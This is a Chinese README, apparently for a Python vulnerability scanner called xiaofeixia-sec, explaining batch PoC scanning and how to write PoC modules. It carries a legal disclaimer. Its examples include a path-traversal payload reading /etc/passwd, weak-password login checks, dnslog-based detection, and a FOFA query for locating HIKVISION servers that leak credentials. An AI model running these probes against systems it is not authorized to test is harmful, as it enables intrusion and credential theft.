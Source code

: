 <h1>使用注意点</h1>

<h2>强调</h2>

本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

<h2>使用注意点</h2>

<ol>

<li>只要不删除、增加、修改poc的文件名，都不需要“-up”。</li>

<li>增加、删除poc,或者修改poc的文件名，都需要执行“-up”</li>

<li>可以在poc目录下移动poc至你认为合适的目录下，只要在移动后执行“-up”即可</li>

<li>由于个人精力有限，现有poc未一一验证，存在误报或poc错误的情况；</li>
</ol>


<h2>用法</h2>

<h3>一、准备工作</h3>

安装python模块</br>

`pip install -r requirements.txt`</br>

如网络异常可指定源安装</br>

`pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple`</br>

<h3>二、用法示例</h3>

1、安装完模块后一定要先进行poc初始化，否则脚本无法读取任何poc

`python xiaofeixia-sec.py -up`

2、对一个网站执行所有poc

`python xiaofeixia-sec.py -u http://www.tesssst.com -a`</br>

3、匹配某些poc进行扫描

`python xiaofeixia-sec.py -u http://www.tesssst.com -s `弱口令</br>

4、批量poc扫描(不支持同时匹配,目前只能匹配一个关键字，如：-s tomcat nginx是不支持的)

`python xiaofeixia-sec.py -f targets.txt -s tomcat`</br>

5、扫描到的漏洞会记录到log目录下的文件，按照日期命名;</br>

6、“-pl”列出当前所有的poc信息;

`python xiaofeixia-sec.py -pl`</br>

7、“debug”只能输出部分语法错误，这部分以后改进;</br>

`python xiaofeixia-sec.py -debug`</br>

8、需要配置邮箱和授权码，最好是qq邮箱，其他的没配置，发现漏洞后可以直接邮件通知，不需要一直盯着，配置文件在config目录下;</br>

9、邮件发送过快可能会被qq限制，导致收不到邮件;</br>

<h2>poc编写规范</h2>

<h3>一、msg()函数</h3>

<p>msg()函数下为记录poc的基本信息。在检测到漏洞后会返回部分信息。</p>

```python
def msg():
  ret = {

      'links'     :  '',//编写poc的参考链接

      'huixian'   :  '',//为空即可，如有需要可在`run()`函数下添加返回信息

      'method'    :   'get',//请求得格式：get、post

      'bugname'   :   'HIKVISION 流媒体管理服务器 user.xml 账号密码泄漏',//漏洞名

      'level'     :   'critical',//漏洞等级：critical、high、medium、low

      'FOFA'      :   '"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"',//fofa查询语法

      'author'    :   'ppxfx',//脚本作者

      'ifbug'     :   False,//默认无漏洞，匹配到漏洞后将True赋值给ifbug

      'create_time':  '2024/2/26',//poc创建时间
  }
  return ret
```

<h3>二、run()函数</h3>

<p>run()函数为检测漏洞的入口，在该函数下编写漏洞检测的相关逻辑</p>

```python
def run(url,ua):
  ret = msg()
  headers = {
      'User-Agent': ua,
      }
  target = ''//路径地址
  url1 = url + target//将域名和路径组合在一起
  ret['url'] = url1
  try:
    res=requests.get(url=url1,headers=headers,timeout=5,verify=False)
    if res.status_code == 200 and re.search(r'root:.*?:[0-9]*:[0-9]*:',res.text,re.S):
      ret['huixian'] = res.text
      res.close()
      ret['ifbug'] = True
      return ret
    else:
      return ret
  except:
    return ret
```

<p>run()函数传入两个参数，一个是待检测地址的域名(后无路径),一个是随机的user-agent，这两个无需修改。</p>

<p>ret是脚本信息，在检测完脚本后返回是否存在漏洞等基本信息。</p>

<p>headers里写入user-agent，ua是浏览器指纹，如果需要其它的也可写入，全部是字符串格式，需要用引号包裹起来，最后都需要逗号结束，如：</p>

```python
headers = {
      'User-Agent': ua,
      'Content-Type': 'application/x-www-form-urlencoded',
      'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
      }
```

<p>target为路径信息，如</p>

```python
target='/../../../../etc/passwd'
```

<h3>三、弱口令的编写注意点</h3>

<p>在弱口令poc中的请求包一般需要禁止重定向，如:</p>

```python
res=requests.post(url=url1,headers=headers,data=data,timeout=5,verify=False,allow_redirects=False)
```
<p>并且在匹配漏洞特征的时候最好检测`localtion`是否符合预期</p>

```python
if res.status_code == 302 and '/out/out.ViewFolder.php' in res.headers['location']
```
<p>最后如果检测到漏洞可将漏洞关键点赋值给`ret['huixian']`，其它漏洞同理，如：</p>

```python
ret['huixian'] = f'账号/密码：Admin/zabbix'
ret['ifbug'] = True //确认为漏洞的标志，重要！
ret['url'] = url1 //有漏洞的返回值里必须有url,无漏洞的可以没有,最好还是有-_-
```
<p>注意：几个`return ret`缺一不可！</p>

<h3>四、dnslog的使用</h3>
<p>如果需要使用dnslog，脚本里需要引入`import script.DnsLog as dnslog`，这里用的是dnslog.cn</p>
<p>首先请求一个dnslog域名</p>

```python
domain,cookie = dnslog.get_domain()
```
<p>domain就是dnslog生成的域名，可以直接利用，这里省去利用过程。在利用完成后再去请求dnslog是否接收到返回用如下语句获取是否检测到回显，返回True或False,True表示检测到回显，False表示未检测到回显</p>

```python
dnslog.get_result(domain,cookie)#传入domain和cookie两个参数，参数从get_domain()获取。
```

```python
//用法示例：
if dnslog.get_result(domain,cookie) == True:
    print('存在漏洞')#具体用法根据poc进行修改
```

<h4>获取域名的IP地址</h4>
<p>如果需要获取网站IP，可以在脚本内任意poc导入</p>

```python
import script.getIP as getIP
def run():
    ip = getIP.main(url)
    if ip == None:#如果返回None,则代表未获取到IP地址，可以直接返回ret信息了。
        return ret
    #继续检测
    print(ip)
```
<h3>五、POC命名建议</h3>
<p>由于脚本利用过程需要用到poc名，因此poc命名需要符合一定规则</p>
<ol>
  <li>不能存在中划线'-',如有需要用下划线'_'代替</li>
  <li>有漏洞编号的最好带上</li>
  <li>支持中文,能唯一标志漏洞的，或者能被批量检索到的最好都写在poc文件名上，漏洞检索功能就是检索`漏洞名`</li>
</ol>
<h4>六、其他注意点</h4>
<p>小飞侠脚本由于是python，语法简单，自由发挥的空间比较多，可根据具体漏洞或自身编程习惯进行编写。</br>相同类型的漏洞放在一个路径下的好处是可以借鉴参考，有助于快速poc的编写</p>
<h2>其他</h2>
<p><strong>如有问题或其他功能扩充想法请与小飞侠联系，支持请点个star</strong></p>
<p><strong>联系方式：3484762639#qq.com（所有数字减1并将#替换为@）</strong></p>